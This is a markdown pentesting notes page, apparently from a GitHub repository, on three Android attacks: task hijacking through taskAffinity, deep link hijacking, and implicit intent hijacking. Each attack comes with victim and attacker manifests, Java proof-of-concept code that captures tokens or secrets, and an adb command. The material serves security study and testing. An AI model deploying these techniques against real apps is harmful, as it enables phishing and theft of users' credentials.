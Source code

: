 # Content

# Task Hijacking / Task Affinity Attack
based on [singleTask mode](https://developer.android.com/guide/components/activities/tasks-and-back-stack#TaskLaunchModes) this gives 3 options for android os when an activity with this mode called :

- **If the Activity instance already exists:**
  - the system routes the intent to the existing instance through a call to its `onNewIntent()` method, rather than creating a new instance. Meanwhile all of the other activities on top of it are destroyed. 

- **If the Activity is newly created:**
  - The system creates the activity at the root of a new task
  - or locates the activity on an existing task with the same affinity

the affinity of an app is usually the package name, an attacker can exploit the last behavior to push the new created activity in the same stack of the hacker's activity

## Attack
### Victim App
notice the `android:launchMode="singleTask"`
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.victim.app">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:logo="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.SuperSecureApp">
        <activity android:name=".LoggedIn"></activity>
        <activity android:name=".MainActivity" android:launchMode="singleTask">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```


### Atacker App
- made the `taskAffinity` with the victim package name 
- `android:excludeFromRecents` ensures the task is not listed in the recent apps, to hide the attacker's app.
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.hacker.app"
    tools:ignore="ExtraText">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.AttackerApp"
        android:taskAffinity="com.victim.app">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>

```

```java
package com.hacker.app;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```


### References
- https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html
- https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/android-task-hijacking
- https://blog.dixitaditya.com/android-task-hijacking?x-host=blog.dixitaditya.com

# Deep Links Hijacking 
the [deep link](https://developer.android.com/training/app-links/deep-linking) are URIs of any scheme that take users directly to a specific part of your app. 

the Android system tries each of the following actions, in sequential order, until the request succeeds:
- Open the user's preferred app that can handle the URI, if one is designated.
- Open the only available app that can handle the URI.
- Allow the user to select an app from a dialog.

if there a website using a deep link to send senstive data to it we can hijack this deeplink by creating an app using that listen to the same deeplink

## Attack
### Victim App
- AndroidMainfest
```xml
  <intent-filter>
    <action android:name="android.intent.action.VIEW"></action>
    <category android:name="android.intent.category.DEFAULT"></category>
    <category android:name="android.intent.category.BROWSABLE"></category>
    <data android:scheme="holiday" > </data>
</intent-filter>
```

### Atacker App
- java code
```java
setContentView(R.layout.activity_sniif); // Ensure the layout file name is correct
Intent intent = getIntent();
Uri uri = intent.getData();
TextView textView = findViewById(R.id.textViewHacked);
if (uri != null) {
  String uriString = uri.toString();
  textView.setText("hacked your account: "+uriString);
} else {
  textView.setText("No Uri data received");
}
```
- adb shell
```shell
am start -a android.intent.action.VIEW -d holiday://example.com?token=123456789
```

### look also for applinks and weblinks


# Hijack Implicit Intents
Hijacking implicit intents involves intercepting and handling intents meant for other apps by declaring matching intent filters in your app's manifest.

### Vicitm App
```xml
<activity
    android:name=".Auth"
    android:exported="true">
    <intent-filter>
        <action android:name="com.app.Vicitm.ATTACK_ME" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```


### Atacker App
```xml
<activity
    android:name=".HijackActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="com.app.Vicitm.ATTACK_ME" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```
- HijackActivity 
```java
hijcakTextView = findViewById(R.id.hijackTextView) ;
Intent I = getIntent();
String secret = I.getStringExtra("secret") ;
hijcakTextView.setText(secret);
```
